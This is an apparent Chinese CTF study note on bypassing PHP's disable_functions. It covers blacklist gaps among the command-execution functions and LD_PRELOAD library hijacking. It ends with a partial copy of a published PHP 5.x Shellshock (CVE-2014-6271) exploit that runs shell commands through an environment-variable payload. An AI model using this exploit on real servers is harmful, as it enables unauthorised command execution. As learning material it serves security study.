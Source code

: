 # php bypass  disable_functions

>最近学习了一些pwn的知识，于是发现之前这个知识点都没有怎么认真了解，正好ctfhub上有这个类型的题，于是用一下午来学习学习。

## 1.黑名单绕过

众所周知，disable_functions 是基于黑名单来实现对某些函数使用的限制的，既然是黑名单有时候就难免会有漏网之鱼

PHP 中能直接执行系统程序的函数

```php
system()
shell_exec(）
exec()
passthru()
popen()
proc_open()
pcntl_exec()
dl() // 加载自定义 php 扩展
```

PHP 中执行运算符（反引号）的效果和 shell_exec() 是相同的

## 2. LD_PRELOAD

>https://mp.weixin.qq.com/s/GGnumPklkUNMLZKQL4NbKg
>
>https://xz.aliyun.com/t/4623#toc-0

`LD_PRELOAD` 是一个 Unix 中比较特殊的环境变量，也产生过很多安全问题

简介

>  LD_PRELOAD 是一个可选的 Unix 环境变量，包含一个或多个共享库或共享库的路径，加载程序将在包含 C 运行时库（libc.so）的任何其他共享库之前加载该路径。这称为预加载库。
>
>  也就是说它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。即我们可以自己生成一个动态链接库加载，以覆盖正常的函数库，也可以注入恶意程序，执行恶意命令。

LD_PRELOAD 绕过 disable_functions 的原理就是劫持系统函数，使程序加载恶意动态链接库文件，从而执行系统命令等敏感操作

## 3. PHP 5.x Shellshock 

>https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/2

PHP < 5.6.2 – ‘Shellshock’ Safe Mode / Disable Functions Bypass / Command Injection

exp

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
```